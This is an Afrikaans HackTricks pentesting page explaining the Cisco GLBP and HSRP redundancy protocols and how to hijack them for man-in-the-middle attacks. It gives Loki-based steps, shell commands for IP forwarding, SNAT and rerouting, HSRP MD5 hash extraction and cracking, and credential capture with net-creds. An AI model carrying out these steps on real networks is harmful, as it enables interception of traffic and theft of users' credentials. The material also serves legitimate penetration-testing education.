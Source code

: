 # GLBP & HSRP Aanvalle

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>


## FHRP Kapingsoorsig

### Insig in FHRP
FHRP is ontwerp om netwerk-robuustheid te bied deur verskeie roeteryers in 'n enkele virtuele eenheid te kombineer, wat sodoende lasverspreiding en fouttoleransie verbeter. Cisco Systems het prominente protokolle in hierdie pakket geïntroduceer, soos GLBP en HSRP.

### GLBP-protokol-insig
GLBP, 'n skepping van Cisco, werk op die TCP/IP-stapel en maak gebruik van UDP op poort 3222 vir kommunikasie. Roeteryers in 'n GLBP-groep ruil "hallo" pakkies uit met tussenposes van 3 sekondes. As 'n roeteryer nie hierdie pakkies vir 10 sekondes stuur nie, word dit as aflyn beskou. Hierdie tydmetings is egter nie vas nie en kan gewysig word.

### GLBP-bedrywighede en lasverspreiding
GLBP onderskei homself deur lasverspreiding oor roeteryers moontlik te maak deur gebruik te maak van 'n enkele virtuele IP gekoppel aan verskeie virtuele MAC-adresse. In 'n GLBP-groep is elke roeteryer betrokke by pakketsending. In teenstelling met HSRP/VRRP bied GLBP ware lasbalansering deur verskeie meganismes:

- **Gasheer-afhanklike lasbalansering:** Handhaaf 'n konstante AVF MAC-adres toewysing aan 'n gasheer, wat noodsaaklik is vir stabiele NAT-konfigurasies.
- **Round-Robin Lasbalansering:** Die verstekbenadering, waar AVF MAC-adres toewysing afwisselend aan versoekende gasheerders gedoen word.
- **Geweegde Round-Robin Lasbalansering:** Versprei die las gebaseer op voorafbepaalde "Gewig" metriek.

### Sleutelkomponente en terminologieë in GLBP
- **AVG (Aktiewe Virtuele Gateway):** Die hoofroeteryer, verantwoordelik vir die toekenning van MAC-adresse aan eweknie-roeteryers.
- **AVF (Aktiewe Virtuele Stuurder):** 'n Roeteryer wat aangewys is om netwerkverkeer te bestuur.
- **GLBP-prioriteit:** 'n Metriek wat die AVG bepaal, begin by 'n verstekwaarde van 100 en wissel tussen 1 en 255.
- **GLBP-gewig:** Weerspieël die huidige las op 'n roeteryer, wat handmatig of deur middel van Objekopsporing aangepas kan word.
- **GLBP Virtuele IP-adres:** Diens as die netwerk se verstekpoort vir alle gekoppelde toestelle.

Vir interaksie maak GLBP gebruik van die voorbehoude multicast-adres 224.0.0.102 en UDP-poort 3222. Roeteryers stuur "hallo" pakkies uit met tussenposes van 3 sekondes, en word as nie-operasioneel beskou as 'n pakkie oor 'n tydperk van 10 sekondes gemis word.

### GLBP-aanvalsmeganisme
'n Aanvaller kan die primêre roeteryer word deur 'n GLBP-pakket met die hoogste prioriteitswaarde (255) te stuur. Dit kan lei tot DoS- of MITM-aanvalle, wat verkeersonderskepping of omleiding moontlik maak.

### Uitvoering van 'n GLBP-aanval met Loki
[Loki](https://github.com/raizo62/loki_on_kali) kan 'n GLBP-aanval uitvoer deur 'n pakket in te spuit met prioriteit en gewig wat op 255 gestel is. Voor-aanvalstappe behels die versameling van inligting soos die virtuele IP-adres, die teenwoordigheid van verifikasie en die prioriteitswaardes van die roeteryer deur middel van hulpmiddels soos Wireshark.

Aanvalstappe:
1. Skakel na promiskueuse modus en aktiveer IP-deurstuur.
2. Identifiseer die teikenroeteryer en haal sy IP op.
3. Genereer 'n Gratis ARP.
4. Spuit 'n kwaadwillige GLBP-pakket in, wat die AVG naboots.
5. Ken 'n sekondêre IP-adres toe aan die aanvaller se netwerkinterface, wat die GLBP virtuele IP naboots.
6. Implementeer SNAT vir volledige verkeersigbaarheid.
7. Pas roetebepaling aan om voortgesette internettoegang deur die oorspronklike AVG-roeteryer te verseker.

Deur hierdie stappe te volg, plaas die aanvaller homself as 'n "man in die middel", wat in staat is om netwerkverkeer te onderskep en te analiseer, insluitend onversleutelde of sensitiewe data.

Vir demonstrasie, hier is die vereiste opdragfragmente:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Passiewe Verduideliking van HSRP-ontvoering met Opdragbesonderhede

#### Oorsig van HSRP (Hot Standby Router/Redundancy Protocol)
HSRP is 'n Cisco-eienaardige protokol wat ontwerp is vir netwerkgateway-herstelbaarheid. Dit maak die konfigurasie van verskeie fisiese roeteryers moontlik in 'n enkele logiese eenheid met 'n gedeelde IP-adres. Hierdie logiese eenheid word bestuur deur 'n primêre router wat verantwoordelik is vir die rigting van verkeer. In teenstelling met GLBP, wat metriese soos prioriteit en gewig gebruik vir vragbalansering, steun HSRP op 'n enkele aktiewe router vir verkeersbestuur.

#### Rolle en Terminologie in HSRP
- **HSRP Aktiewe Router**: Die toestel wat as die gateway optree en verkeersvloei bestuur.
- **HSRP Standby Router**: 'n Rugsteunroeter wat gereed is om oor te neem as die aktiewe router misluk.
- **HSRP Groep**: 'n Stel roeteryers wat saamwerk om 'n enkele veerkragtige virtuele router te vorm.
- **HSRP MAC-adres**: 'n Virtuele MAC-adres wat aan die logiese router in die HSRP-opstelling toegewys is.
- **HSRP Virtuele IP-adres**: Die virtuele IP-adres van die HSRP-groep wat optree as die verstekroete vir gekoppelde toestelle.

#### HSRP-weergawes
HSRP kom in twee weergawes voor, HSRPv1 en HSRPv2, wat hoofsaaklik verskil in groepskapasiteit, multicast IP-gebruik en virtuele MAC-adresstruktuur. Die protokol maak gebruik van spesifieke multicast IP-adresse vir diensinligtinguitruiling, met Hello-pakette wat elke 3 sekondes gestuur word. 'n Router word as onaktief beskou as geen pakket binne 'n interval van 10 sekondes ontvang word nie.

#### HSRP-aanvalsmeganisme
HSRP-aanvalle behels die gedwonge oorneem van die rol van die Aktiewe Router deur 'n maksimum prioriteitswaarde in te spuit. Dit kan lei tot 'n Man-In-The-Middle (MITM) aanval. Essensiële voor-aanvalstappe sluit in die versameling van data oor die HSRP-opstelling, wat gedoen kan word deur Wireshark vir verkeersanalise.

#### Stappe om HSRP-verifikasie te omseil
1. Stoor die netwerkverkeer wat HSRP-data bevat as 'n .pcap-lêer.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Haal MD5-hashes uit die .pcap-lêer met behulp van hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Kraak die MD5-hashes met behulp van John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Uitvoering van HSRP-inspuiting met Loki**

1. Begin Loki om HSRP-advertensies te identifiseer.
2. Stel die netwerkinterface in promiskue modus en aktiveer IP-deurstuur.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Gebruik Loki om die spesifieke router te teiken, voer die gekraakte HSRP-wagwoord in en doen die nodige konfigurasies om die Aktiewe Router na te boots.
4. Nadat die Aktiewe Router-rol verkry is, konfigureer jou netwerkinterface en IP-tabelle om die wettige verkeer te onderskep.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Wysig die roetetabel om verkeer deur die vorige Aktiewe Router te roeteer.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Gebruik net-creds.py of 'n soortgelyke hulpprogram om legitimasie-inligting van die onderskepte verkeer vas te vang.
```shell
sudo python2 net-creds.py -i eth0
```

Deur hierdie stappe uit te voer, plaas die aanvaller hom in 'n posisie om verkeer te onderskep en te manipuleer, soortgelyk aan die prosedure vir GLBP-ontvoering. Dit beklemtoon die kwesbaarheid in herstelbaarheidsprotokolle soos HSRP en die behoefte aan robuuste sekuriteitsmaatreëls.


## Verwysings
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)


<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks-uitrusting**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
